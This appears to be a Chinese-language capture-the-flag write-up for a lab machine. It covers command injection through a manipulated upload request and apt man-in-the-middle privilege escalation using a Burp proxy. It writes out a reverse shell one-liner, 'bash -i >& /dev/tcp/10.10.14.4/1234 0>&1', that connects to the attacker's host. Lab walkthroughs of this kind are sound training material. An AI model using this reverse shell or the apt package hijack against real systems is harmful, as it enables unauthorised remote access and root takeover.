 要記得先去網頁那裏，把按鈕的hidden刪了
然後用burpsuite 抓
改一點值跟型態還有url+你的command就好了

![image](https://hackmd.io/_uploads/Syof4Z9GC.png)

成功上傳

![image](https://hackmd.io/_uploads/H1wOEW5GA.png)

接著就是開監聽上傳reverse shell(還要再去造訪一次網頁)

bash -i >& /dev/tcp/10.10.14.4/1234 0>&1

![image](https://hackmd.io/_uploads/H1iIHbcG0.png)

www-data
![image](https://hackmd.io/_uploads/r1JKBbqzC.png)


### root.txt

可以透過 apt update  upgrade 來提權
![image](https://hackmd.io/_uploads/rkL2HW5fC.png)

先試試看update
他說失敗是因為APT嘗試解析 packages.onetwoseven.htb

![image](https://hackmd.io/_uploads/Byx2Schf0.png)

所以我們可以劫持他的流量來變成root

#### MiTM

之前有打過跟apt有關的
當時是寫一個apt的reverse shell
但現在這題不太一樣的是
似乎要讓他執行update之後還要upgrade
因為有些事情的權限的問題
所以不是執行其中一個就會成功
而這是我找到的方法
aka 中間人攻擊

https://versprite.com/vs-labs/apt-mitm-package-injection/

我先設我的proxy到環進變數裡
export http_proxy

![image](https://hackmd.io/_uploads/BJaeojhfC.png)


用burp suite 去當作proxy的轉接處
![image](https://hackmd.io/_uploads/Hkh21nnG0.png)
![image](https://hackmd.io/_uploads/H18aTj3GC.png)
